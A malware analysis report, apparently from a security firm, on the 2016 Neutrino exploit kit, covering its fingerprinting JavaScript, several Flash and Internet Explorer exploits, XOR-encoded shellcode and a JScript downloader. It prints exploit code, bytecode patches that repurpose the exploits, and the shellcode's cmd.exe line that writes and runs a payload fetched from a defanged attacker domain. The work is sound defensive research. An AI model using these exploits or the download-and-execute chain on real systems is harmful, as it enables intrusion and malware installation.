Interestingly, the cleartext version of this fingerprinting (after RC4 decryption) is on VT. Also
it is the exact same file (i.e. has the same MD5) as Jerome Segura's blog post fingerprinting file 
though the original SWF file is different.

The JavaScript code is obfuscated so strings are not visible and it is not directly obvious to
say what it does, see figure \ref{fingerprint_obfuscated}.



Since Jerome's blog post does not explain how he deobfuscated
this JavaScript file, we describe a method in this section.

We tried JSDetox without much success. we think it is either because there is an error in the
JavaScript so it stops executing it or that JSDetox does not do any substitution (more on this
later).

We use Notepad++ JSTool plugin and its JSFormat feature to indent the file, see figure
\ref{fingerprint_indented}:

* There is an obfuscated string `v`.
* `J()` takes a list `[key1, value1, key2, value2, ...]` and builds a dictionary `{key1: value1, key2: value2}`. 
  * Example: `g[a] = J(v[4], d[v[4]], v[8], d[v[8]], v[34], 0, v[35], 0, v[36], 0);`.
* `I()` is used to decrypt the obfuscated string `v`.


\pagebreak

We use the Chrome 44.0.2403 console to execute some JavaScript code and print the result of `v`,
see figure \ref{chrome_v}:

* We open Chrome and hit F12 to open the JavaScript console.
* We copy the `function I(h, a) { ... }` code and execute it.
* We copy the `var v = (I)("...", 1391848);` and execute it.
* We input `v` and execute it to print the result.
* The reason we use Chrome (instead of Internet Explorer) is because it displays the array 
  in a way that allows us to copy it easily. Note that we need to replace "`\`" by "`\\`" 
  in the array so it is usable in our scripts.



We use the `fingerprint_deobfuscate_string.py` script to replace instances of the `v` array.
We reindent the file using Notepad++ and note the following, see figure \ref{fingerprint_tools}:

* The `g[a] = J(v[4], d[v[4]], v[8], d[v[8]], v[34], 0, v[35], 0, v[36], 0);` code becomes: 
  `g[a] = J("name", d["name"], "type", d["type"], "loading", 0, "interactive", 0, "complete", 0);`
* We see some debugging strings in `B("[START] checking process ...")`. `B` is probably 
  a logging function.
* `e` is a dictionary with `"debug"` set to `false`
* `q` is a list of dictionaries. Each dictionary contains a tool to test.



We execute that JavaScript file in unpatched IE 8 and get figure \ref{fingerprint_nolog}. 
At first it looks like it fails to execute.


Actually, if we set the previous `"debug"` key to `true`, we get the result in figure
\ref{fingerprint_log} indicating that the JavaScript code detected that we are running 
in VMware and that FFDec and Fiddler2 are installed.



Note that the error we get at the end is because at the end it tries to access 
either `onFailed()` or `onSuccess()` and they are defined in `stage2.swf`. We don't have such
functions here because we execute the JavaScript directly out of stage 2 Flash file.

This has been tested in the following environments:

* Win7 64-bit with IE 8 (32-bit) unpatched: detection works.
* Win7 32-bit with IE 11 patched >= Nov 2015: detection fails.
* Win10 64-bit with Edge patched >= July 2016: detection fails.

We get rid of the `J()` function by rebuilding the actual dictionaries using the
`fingerprint_rebuild_dictionary.py` script. The following code:

```
g[a] = J("name", d["name"], "type", d["type"], "loading", 0, "interactive", 0, "complete", 0);
```

becomes after rebuilding the dictionary and indentation:

```
g[a] = {
  "name" : d["name"],
  "type" : d["type"],
  "loading" : 0,
  "interactive" : 0,
  "complete" : 0
};
```

Finally we manually rename all functions, variables in this JavaScript code. A preview is shown
in figure \ref{deobfuscated_fingerprinting}.


\pagebreak

# Flash exploits

## CVE-2015-8651 Flash Integer overflow

`1_nw22_swf_rc4` is identified as 
[CVE-2015-8651](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-8651) 
using figure 9 from 360 Security Team
[blogpost](http://bobao.360.cn/news/detail/3302.html) and figure 4 from Forcepoint 
[blogpost](https://blogs.forcepoint.com/security-labs/popular-site-leads-angler-ek-cve-2015-8651-flash-player-exploit).
It is very similar to decompiled source code in figure \ref{li32_overflow}.



We can see in figure \ref{li32_overflow} that all classes, functions, etc. have their
original readable names. Therefore there is no obfuscation here. We list the following:

* `shell_rc4` is an RC4-encrypted blob stored in the Flash file. This is the shellcode being
  executing post exploit and is detailed in section  \ref{shellcode}).
* `nw22` is the entry point. It decrypts the `shell_rc4` blob and calls
  `Starter.wait_and_run()`.
* The `Starter`'s constructor checks the Flash version and initialises an `Exploit` object.
  `Starter.wait_and_run()` ends up executing the exploit through
  `Starter.check_spray_exp()` and executing the shellcode through
  `Starter.run_payload()`.
* Internally, `Starter.check_spray_exp()` calls functions from `Exploit` class and
  `Starter.run_payload()` calls functions from `Payload` class.

We execute the Flash file in Flash 19.0.0.207 standalone debug executable, 
we have an error in `init()`, see figure \ref{nw22_sa_execution}:


We look further at the Action Script code:

* It retrieves the `SharedObject` with the name `nw22`.
* It retrieves some parameters stored in this shared object. 

```actionscript
private function init(param1:Event = null) : void
{
   removeEventListener("addedToStage",this.init);
   var _loc3_:SharedObject = SharedObject.getLocal("nw22");
   var _loc4_:String = String(_loc3_.data.nw22.key);
   var _loc5_:String = String(_loc3_.data.nw22.url);
   var _loc2_:String = String(_loc3_.data.nw22.uas);
   _loc3_.clear();
   _loc3_.flush();
   try
   {
      this.do_work(_loc4_,_loc5_,_loc2_);
      return;
   }
   catch(error:Error)
   {
      return;
   }
}
```

We can check in Stage 2 source code that it initialises this shared object before executing 
this exploit.

```actionscript
private final function init(param1:Event = null) : void
{
   ...
   //§nw22_swf_rc4$341acf8a38c7ef2cbe35c674750c202b-394312611§;
   var _loc2_:ByteArray = new m_myClass06() as ByteArray;
   _loc2_ = Crypt.rc4(_loc2_, this.m_myStr08);
   // Create a shared object
   var _loc3_:SharedObject = SharedObject.getLocal("nw22");
   if(!_loc6_)
   {
      ...
         _loc3_.data["nw22"] = {
            // 'key': {'payload': 'njikqzcmxs'},
            "key":this.config_json.key.payload,
            // 'link': { 'pnw22': 'hxxp://zodlp[.]aebeike[.]xyz/breast/ZW92eHZ6cGg',
            "url":this.config_json.link.pnw22,
            // HTTP user agent
            "uas":this.targets_info.userAgent
         };
```

We modify the nw22 Flash file with JPEXS so parameters are hardcoded in the file instead of
being passed as a shared object. We see that `var _loc4_:String = String(_loc3_.data.nw22.key);`
is equivalent to the selected assembly in figure \ref{nw22_modification}.



\pagebreak

So we replace:

```actionscript
getlocal_3
getproperty Qname(PackageNamespace(""),"data")
getproperty Multiname("nw22", ...)
getproperty Multiname("key", ...)
convert_s
coerce_s
setlocal 4

getlocal_3
...
setlocal 5

getlocal_3
...
setlocal_2
```

with:

```actionscript
pushstring "njikqzcmxs"
setlocal 4
pushstring "http://localhost:8080/blur/confusion-backward-doze-14532603"
setlocal 5
pushstring "fake UserAgent"
setlocal_2
```

You may notice we have replaced the original domain with a local domain to figure out
if the URL is reached. We load the modified nw22 Flash file in a Windows 7 x64 IE 8
unpatched with Flash 19.0.0.207 installed. Indeed, the exploit works, a temporary
VB script is created (see section \ref{vb_script}) and the local HTTP server is reached 
with the specified URL.

\pagebreak

## CVE-2016-1019 Flash type confusion

`2_nw23_swf_rc4` is identified as 
[CVE-2016-1019](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2016-1019)
using figure 10 from 360 Security Team blogpost
and TrendMicro 
[blogpost](http://blog.trendmicro.com/trendlabs-security-intelligence/look-adobe-flash-player-cve-2016-1019-zero-day-vulnerability/). 
It gives details on the exploit that match our static analysis, see figure \ref{ConvolutionFilter_u2f}.



We note the following:

* This exploit is not obfuscated.
* `nw23` is the entry point.
* `Utils` contains utility functions.
* `Win32` looks for `VirtualProtect` and executes the shellcode.
* `Skotina` decrypts the `1_Skotina_skotina_class` blob. This blob is an RC4-encrypted shellcode
  similar to `1_shell_rc4` from previous section. Refer to section \ref{shellcode} for more
  information.
* `C32` decrypts the `2_C32_as2swf` blob and triggers the vulnerability. `2_C32__as2swf` contains
  calls to `_global.ASnative()` as described by TrendMicro (see figure \ref{as2swf}).



Instrumentation of this Flash exploit is left as an exercise to the reader.

\pagebreak

## CVE-2016-4117 Flash exploit

`3_nw24_swf_rc4` is identified as CVE-2016-4117 using figure 11 from 360 Security Team blogpost
and FireEye [blogpost](https://www.fireeye.com/blog/threat-research/2016/05/cve-2016-4117-flash-zero-day.html) 
where they details how they found the vulnerability in May 2016.

We notice that the function, variables names are obfuscated (renamed to `a0`, `a1`, `flash0`, 
`flash1`, etc.), see figure \ref{cve_2016_4117}. We use JPEXS command line tool to get the
disassembly and check that there is no name either in the disassembly.


`1_nw24_skotina_class` is an RC4-encrypted shellcode similar to `1_Skotina_skotina_class` 
and `1_shell_rc4` from previous sections. Refer to section \ref{shellcode} for more information.

We modify the following assembly:

```
getscopeobject 1
findpropstrict Qname(PackageNamespace(""),"String")
getscopeobject 1
getslot 2
getproperty Qname(PackageNamespace(""),"data")
getproperty Multiname("nw24", ...)
callproperty Qname(PackageNamespace(""),"String") 1
coerce_s
setslot 3

getscopeobject 1
...
setslot 4

getscopeobject 1
...
setslot 5
```

with:

```
getscopeobject 1
pushstring "njikqzcmxs"
setslot 3
getscopeobject 1
pushstring "http://localhost:8080/nw24"
setslot 4
getscopeobject 1
pushstring "fake UserAgent"
setslot 5
```

The idea is to obtain a valid Action Script in the left window, see figure \ref{nw24_modification}.



We load the modified nw24 Flash file in a Windows 7 x64 IE 8 unpatched with Flash 21.0.0.213
installed. Indeed, the exploit works, a temporary VB script is created and the local HTTP
server is reached with the specified URL.

It is interesting to note that the exploit fails with Flash 19.0.0.207 because the feature
used in the exploit did not exist yet. We check the error using the Standalone Debug executable:

```
VerifyError: Error #1014: Class com.adobe.tvsdk.mediacore.timeline.
                          operations::DeleteRangeTimelineOperation could not be found.
```

\pagebreak

## Shellcode
\label{shellcode}

`1_shell_rc4` blob is the shellcode RC4-encrypted with the `"littleEndian"` key for
`1_nw22_swf_rc4` exploit. All exploit have a similar payload.
You may notice the call to `unzip()` which is the original symbol and is actually a call
to the RC4 decryption routine. Also note that `"LittleEndian"` is being used
legitimately in other parts of the code so it may try to confuse an analyst.

```actionscript
private static var skotina_class:Class = shell_rc4$787c4c90c7cad51cecb05491d510c088307104563;

private function get_skotina(param1:String, param2:String, param3:String) : ByteArray
{
   var _loc5_:String = "iso-8859-1";
   var _loc7_:String = "littleEndian";
   if(param1 == null || param2 == null || param3 == null)
   {
      return null;
   }
   var _loc6_:ByteArray = new ByteArray();
   _loc6_ = unzip(_loc7_,new skotina_class() as ByteArray);
   ...
}
```

We decrypt `1_shell_rc4` blob by using a script similar to `stage2_decrypt.py` and get
`1_shell_rc4_decrypted_1`. We drop this into IDA Pro and get the following
assembly routine that we commented:

```
    jmp     short prepare_decrypt_payload
decrypt_payload:
    pop     eax                     ; eax points to payload below
    xor     ecx, ecx                ; i = 0
    mov     cx, 59Ch                ; i = sizeof(payload)

decrypt_loop:
    dec     ecx                     ; ecx--
    xor     byte ptr [eax+ecx], 9Ah ; payload[i] ^= 0x9A
    test    ecx, ecx                ; i == 0?
    jnz     short decrypt_loop
    jmp     eax                     ; jump to payload
prepare_decrypt_payload:
                call    decrypt_payload
; ---------------------------------------------------------------------------
payload     dd 197F13CFh
            dd 0CBC9365Eh
            ...
```

This is equivalent to the following C code. Basically it is an XOR decryption
routine using the one-byte key `0x9A`:

```c
char payload = {0xcf, 0x13, 0x7f, 0x19, ...};
DWORD i = sizeof(payload);
while (i > 0) {
	payload[i] ^= 0x9A;
}
void(*func)(); 
func = &payload;
func();
```

The `decrypt_sc.py` script is used to decrypt the shellcode
into `1_shell_rc4_decrypted_2`.

We drop `1_shell_rc4_decrypted_2` into IDA Pro. We get an assembly routine that 
uses the `FS` register to access the 
[PEB](https://en.wikipedia.org/wiki/Win32_Thread_Information_Block#Contents_of_the_TIB_.2832-bit_Windows.29) 
and parses the list of modules to resolve the `CreateProcessA`
address. Finally it writes a Visual Basic Script into a temporary file (`%TMP%\WMD1NF.tmp`) 
and executes it:

```
seg000:0000000B		mov     eax, fs:[eax+30h] 			; get PEB
...
seg000:00000031		cmp     dword ptr [eax], 'aerC' 	; begins with "Crea"
seg000:00000037		jnz     short loc_55
seg000:00000039		cmp     dword ptr [eax+0Bh], 'Ass' 	; ends with "ssA"
...
seg000:00000084		jmp     short prepare_call_CreateProcess
seg000:00000086 call_CreateProcess:
seg000:00000086		push    eax
seg000:00000087		call    ebx
...
seg000:00000093		retn
seg000:00000094 prepare_call_CreateProcess:
seg000:00000094		call    call_CreateProcess	; push aCmd_exeQCCdDTm address into stack
seg000:00000099 aCmd_exeQCCdDTm
seg000:00000099		db 'cmd.exe /q /c cd /d "%tmp%" && echo var i3="WinHTTPZRequest.5.1ZG'
seg000:00000099		db 'ETZScripting.FileSystemObjectZWScript.ShellZADODB.StreamZeroZ.ex"'
seg000:00000099		db ',u=function(i){return i3["\x73p\x6ci\x74"]("\x5a")[i]},li=functio'
...
seg000:00000099		db '4"+p+u(17)+c,0)}catch(hy){}q["De\x6cet\x65\x66ile"](h1);>WMD1NF.t'
seg000:00000099		db 'mp && start wscript //B //E:JScript WMD1NF.tmp "'
```

We look back at `nw22.as` `get_skotina()` which decrypts the shellcode. It actually appends
a few elements to the end of the shellcode above:

```actionscript
// shellcode
_loc4_.writeBytes(_loc6_, 0, _loc6_.length);
// key, url, uas
_loc4_.writeMultiByte(key,_loc5_);
_loc4_.writeByte(34); // "
_loc4_.writeByte(32); // space
_loc4_.writeByte(34); // "
_loc4_.writeMultiByte(url,_loc5_);
_loc4_.writeByte(34); // "
_loc4_.writeByte(32); // space
_loc4_.writeByte(34); // "
_loc4_.writeMultiByte(uas,_loc5_);
_loc4_.writeByte(34); // "
_loc4_.writeUnsignedInt(0);
```

To summarise, `CreateProcess()` executes the following commands (see below):

* It changes directory to the temporary directory (e.g.: `C:\Users\<User>\AppData\Local\Temp`).
* It writes the VB script in a temporary file.
* It executes the VB script, specifying the JScript engine.

```
cmd.exe /q /c cd /d "%tmp%"
echo ... > WMD1NF.tmp
start wscript /B /E:JScript WMD1NF.tmp "njikqzcmxs" \
              "hxxp://zodlp[.]aebeike[.]xyz/breast/ZW92eHZ6cGg" \
              "target user agent"
```

We save the VB script for further analysis.

## VB script

\label{vb_script}

This VB script is obfuscated, see figure \ref{obfuscated_vbscript}.


We manually deobfuscate it. We first indent the code, then use the `deobfuscate_strings.vbs` 
script to generate the list of deobfuscated strings. We then replace the strings
with `script_replace_strings.py`. Finally, we rename manually the variables, functions and
concatenate the strings to get a readable script:

* It uses the `ActiveXObject("WinHTTP.WinHTTPRequest.5.1")` to retrieve the remote data
  specified by the config `link.pnw22` URL.
* Data is an encrypted PE file that is decrypted using RC4 and the config `key.payload` key.
* It checks byte 23 of the PE file to determine if it is a DLL or executable
* If it is a DLL, it appends ".dll" to the filename, save the file in the temporary directory
  and execute `cmd.exe /c regsvr32.exe /s <filename>`
* If it is an executable, it appends ".exe" to the filename, save the file in the temporary
  directory and execute `cmd.exe /c <filename>`
* It finally deletes the executable from the filesystem.



\pagebreak

# IE exploits

## CVE-2014-6332 IE OLE Automation Array RCE

6_nw7_html_rc4`` is identified as 
[CVE-2014-6332](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6332)
using figure 8 from 360 Security Team blogpost.

We replace the two lines:

```javascript
key="%payloadRc4Key%"
url="%payloadUrl%"
```

with:

```javascript
key="njikqzcmxs"
url="http://localhost:8080/nw7"
```

to check that the exploit works. It has been successfully tested on Windows 7 x64 with IE 8
unpatched. Indeed, the exploit works, a temporary
VB script is created and the local HTTP server is reached with the specified URL.

## CVE-2016-0189 IE Scripting Engine Memory Corruption

`7_nw8_html_rc4` is identified as 
[CVE-2016-0189](https://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-0189)
using figure 7 from 360 Security Team blogpost. It has been patched in May 2016 by
Microsoft.

We replace the two arguments `"%payloadRc4Key%"` and `"%payloadUrl%"` to check that 
the exploit works. It has been successfully tested on Windows 7 x64 with IE 8
unpatched. Indeed, the exploit works, the temporary
VB script is created and the local HTTP server is reached with the specified URL.

## Other IE exploit

We would need to deobfuscate the `5_nw2_html_rc4` HTML file to figure out what exploit it is. 
It is left as an exercise for the reader.

\pagebreak 

# Automation

mak (@maciekkotowicz) published a 
[script](https://github.com/mak/ekdeco/blob/master/neutrino/neutrino.py) on 17th July 2016 
to extract exploits from the
Neutrino EK. It is based on the `pyswf` library to manipulate the SWF, its binary data and scripts.
It automates most of the tasks described in this document. We have improved this script to save the
exploit original names, see `neutrino.py`.

The algorithm is the following:

* Parse stage1 binary data and get the one with digits before encrypted data. This is the encrypted
  configuration file.
* Retrieve strings from stage1 script between `writeBytes` and `Loader`. They correspond to the
  different encrypted blobs that form encrypted stage2.
* Parse stage1 binary data and get the blobs that are less than 0x50. They are candidate for the key
  to decrypt stage2.
* Decrypt stage2 with previous candidate key until we get a valid Flash header (ZWS, CWS or 
  FWS)
* Retrieve strings from stage2 script that are the concatenation of at least 5 letters with at least
  4 digits. We should get two results: one is an RC4 key to decrypt the exploits and the other is an
  RC4 key to decrypt the configuration file.
* The key that works both for decrypting one HTML exploit and ZLIB decompressing it can be used to 
  decrypt all other exploits.
* The other key is used to decrypt the configuration file

```
C:\>python neutrino.py -d stage1 -e -i -v stage1.swf_
[+] cfg found in tag: 1 with name: "d.picuazscsx"
[+] Found 10 encrypted blobs used for second swf (Total = 60066 bytes):
['iecqnvmtbfwkz', 'rrazhdfpslkf', 'xsloaqqqdldwnit', 'ifpafpijuxcghif', 'artahkrkwuh',
 'daimfxmlnvui', 'xoafugflzgskxd', 'skrvlzirxvd', 'qysjvhjabpgm', 'mfakihctyyfxh']
[+] Embedded SWF (SHA256: 1573d7ab180de1ebed3242dbc5dd560dc4fe0d007a092b5642bfaf3b3e46fc27)
    -> saved in stage1\intermediate.swf_
[+] cfg key: kpbbwoff17384, exploit key: edfdamtlkfg511485
[+] cfg:
{'debug': {'flash': False},
 'exploit': {'nw2': {'enabled': True},
             'nw22': {'enabled': True},
             'nw23': {'enabled': True},
             'nw24': {'enabled': True},
             'nw7': {'enabled': True},
             'nw8': {'enabled': True}},
 'key': {'payload': 'njikqzcmxs'},
 'link': {'backUrl': '',
          'bot': 'hxxp://zodlp[.]aebeike[.]xyz/metal/1375169/
                  unconscious-damage-straighten-absence-cart-aunt-anyway-thread-dusty',
          'flPing': 'hxxp://zodlp[.]aebeike[.]xyz/1972/02/18/massive/certain/sergeant/
                     slope-breathe-unexpected-upright-temple-faster-patrician-grace.html',
          'jsPing': 'hxxp://zodlp[.]aebeike[.]xyz/chance/family-structure-misery-20446186',
          'pnw2': 'hxxp://zodlp[.]aebeike[.]xyz/blur/confusion-backward-doze-14532603',
          'pnw22': 'hxxp://zodlp[.]aebeike[.]xyz/breast/ZW92eHZ6cGg',
          'pnw23': 'hxxp://zodlp[.]aebeike[.]xyz/2003/09/08/decide/hard/knot/
                    explore-unfortunate-bewilder.html',
          'pnw24': 'hxxp://zodlp[.]aebeike[.]xyz/fear/eXF2cGY',
          'pnw7': 'hxxp://zodlp[.]aebeike[.]xyz/1984/07/07/history/already/
                   sink-drift-baby-altogether-wolf.html',
          'pnw8': 'hxxp://zodlp[.]aebeike[.]xyz/2015/04/21/motion/
                   treat-monstrous-passage-crook-firm.html',
          'soft': 'hxxp://zodlp[.]aebeike[.]xyz/bosom/bmpzbWFvYmdr'},
 'marker': 'rtConfig'}
[+] Exploit nw22_swf_rc4 (SHA256: 06e2d3389f88b3daae6e620c2da7e4162b621a12d51cddb5993605b7475223e5) 
    -> saved in stage1\nw22_swf_rc4.swf_
[+] Exploit nw23_swf_rc4 (SHA256: b854f8b8befc9f3dd4ad89d29ed6dd163a8f4ab26d5304591aa90211b4d932b8) 
    -> saved in stage1\nw23_swf_rc4.swf_
[+] Exploit nw24_swf_rc4 (SHA256: 82c2e27273e2497cfeaa85b8500eaf8105ff77e5505d618b43b88a6a5d9658f3) 
    -> saved in stage1\nw24_swf_rc4.swf_
[+] Exploit res_js_rc4 (SHA256: 8229f3aa186e7d7bc34b4f58c5ef88bfa416264403f18207a8e9fb54a0dd7b29) 
    -> saved in stage1\res_js_rc4.js_
[+] Exploit nw2_html_rc4 (SHA256: 38ab51cdfe1d723a265a1de041cecb872078389ba7ce709c5700d9f3fe16afe8) 
    -> saved in stage1\nw2_html_rc4.html_
[+] Exploit nw7_html_rc4 (SHA256: e3f1f0f51f97587146cbf9493ab9950b2517027ae14784dc2220ee31bbb79977) 
    -> saved in stage1\nw7_html_rc4.html_
[+] Exploit nw8_html_rc4 (SHA256: d3aa312faa72ad244e5b46ef22b5b816f1b8fee23529d89dfea078dd06d34d9e) 
    -> saved in stage1\nw8_html_rc4.html_
```

# Additional notes

## Future work

This section details some future works that would help us analyse new samples.

* We have focused our analysis on the recent Neutrino EK. It would be interesting to analyse other
  recent EKs with as much details.
* The intermediate Flash file had all its names using the `§` symbol. Deobfuscating .NET
  similar samples can be achieved using de4dot. It would be good to have a similar tool
  for Flash.
* It could be useful to have tools to rebuild the original Flash file after having extracted
  its components and modified them; e.g.: after having modified the `debug` variable
  to `true` in the fingerprinting JavaScript or modified the URLs in the config file to point
  to a local host, etc.
* We have attempted a methodology based on `trace()` to dump binary data. It would be interesting
  to be able to dump any binary content using this method. It would be worth trying to use the 
  Action Script `unescape()` to decode content that has been encoded with `escape()`.

## Similar samples

These are similar samples from the Neutrino EK:

* 1ac2c76d4b77786647f98c161beaeeea
* 3010844d17b8a3563d89135b4af07c49
* a0a459cd82e3999ada2cec21d813fc1d
* 2be20d076d1937409629caf053053c74 (no target fingerprinting)
* ac707a37d812f3c1a8632b2e147ce50a

## Changes

* 2016-07-22: v0.1 internal draft.
* 2016-08-09: v0.2 internal QA.
* 2016-08-12: v1.0 initial public release.

\pagebreak

# Appendix

## HTTP communication

\label{http_request}

```html
GET /absorb/anJqeWtieHZhaw HTTP/1.1
Accept: text/html, application/xhtml+xml, */*
Referer: http://www.kiamotorsnigeria.com/
Accept-Language: en-GB
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko
Accept-Encoding: gzip, deflate
Host: zodlp.aebeike.xyz
DNT: 1
Connection: Keep-Alive
```

```html
HTTP/1.1 200 OK
Server: nginx/1.4.6 (Ubuntu)
Date: Wed, 15 Jun 2016 12:58:19 GMT
Content-Type: text/html
Transfer-Encoding: chunked
Connection: keep-alive
Content-Encoding: gzip

210
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN"
                      "http://www.w3.org/TR/html4/loose.dtd">
<html>
<body>
<script>
</script>
<object height="741" classid="clsid:d27cdb6e-ae6d-11cf-96b8-444553540000" name="qffppxkp"
        width="405" id="qffppxkp" 
		codebase="http://fpdownload.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=10,1,52,0">
    <param name="movie" 
	       value="/address/1335107/balance-fountain-click-absurd-merry-sing-examine.swf"/>
    <param name="bgcolor" value="#fe04e0"/>
    <param name="allowScriptAccess" value="always"/>
    <embed play="true" align="middle" width="405"
	       pluginspage="http://www.macromedia.com/go/getflashplayer" quality="high"
		   type="application/x-shockwave-flash" 
		   src="/address/1335107/balance-fountain-click-absurd-merry-sing-examine.swf"
		   name="adpdcrrx" allowScriptAccess="sameDomain" height="741" id="adpdcrrx" 
		   loop="false"/>
</object>
</body>
</html>
```

```html
GET /address/1335107/balance-fountain-click-absurd-merry-sing-examine.swf HTTP/1.1
Accept: */*
Accept-Language: en-GB
Referer: http://zodlp.aebeike.xyz/absorb/anJqeWtieHZhaw
x-flash-version: 21,0,0,242
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko
Host: zodlp.aebeike.xyz
DNT: 1
Connection: Keep-Alive
```

```html
HTTP/1.1 200 OK
Server: nginx/1.4.6 (Ubuntu)
Date: Wed, 15 Jun 2016 12:58:19 GMT
Content-Type: application/x-shockwave-flash
Transfer-Encoding: chunked
Connection: keep-alive

1f6a
CWS
...
```

## Scripts

\label{scripts}

The following scripts were created during analysis and are available to download from NCC Group's Github 
repository:

* `decode_escape.py` - Attempt to decode the output of Action Script `trace(escape())` (does not
  work yet).
* `stage1_deobfuscate.py` - Removes unused assignments in stage 1 decompiled source code to
  make it more readable.
* `stage1_decrypt.py` - RC4-decrypts stage 2 and configuration file stored in stage 1.
* `stage1_replace.py` - Replaces decrypted strings in stage 1 decompiled source code.
* `get_names_from_bytecode.py` - Retrieves obfuscated names in stage 2 from assembly files and 
  update decompiled source code names.
* `stage2_decrypt.py` - RC4-decrypts all blobs stored in stage 2.
* `stage2_decompress.py` - ZLIB-decompress some blobs stored in stage 2 (Python).
* `Uncompress.cs` - ZLIB-decompress some blobs stored in stage 2 (C#).
* `decrypt_sc.py` - XOR-decrypts the shellcode.
* `fingerprint_deobfuscate_string.py` - Replaces decrypted strings in JavaScript fingerprinting component.
* `fingerprint_rebuild_dictionary.py` - Replace function calls by the actual dictionnary being created to
   make it more readable.
* `deobfuscate_strings.vbs` - Retrieves obfuscated strings in VB script.
* `script_replace_strings.py` - Replaces decrypted strings in VB script.
* `neutrino.py` - Automatically extracts all component from the original Flash file.

## Output

\label{output}

The following files were generated during analysis and are available to download from NCC Group's Github 
repository:

* `stage1`: stage1 obfuscated and deobfuscated Action Script decompiled source code files
* `stage2`: Action Script decompiled source code files after renaming everything using the names 
  from the associated assembly files
* `fingerprinting`: target fingerprinting obfuscated an deobfuscated JavaScript and HTML page
* `exploits`:
    * `1_nw22_swf_rc4` and `2_nw23_swf_rc4` are original unobfuscated Action Script decompiled source code
      for nw22 and nw23 Flash exploits.
    * `1_nw22_swf_rc4_local.swf` is a repurposed version of nw22 Flash exploit to download a file from 
      a localhost HTTP server
    * `nw2_html_rc4_local.html`, `nw7_html_rc4_local.html` and `nw8_html_rc4_local.html` are
      repurposed versions of the IE exploits.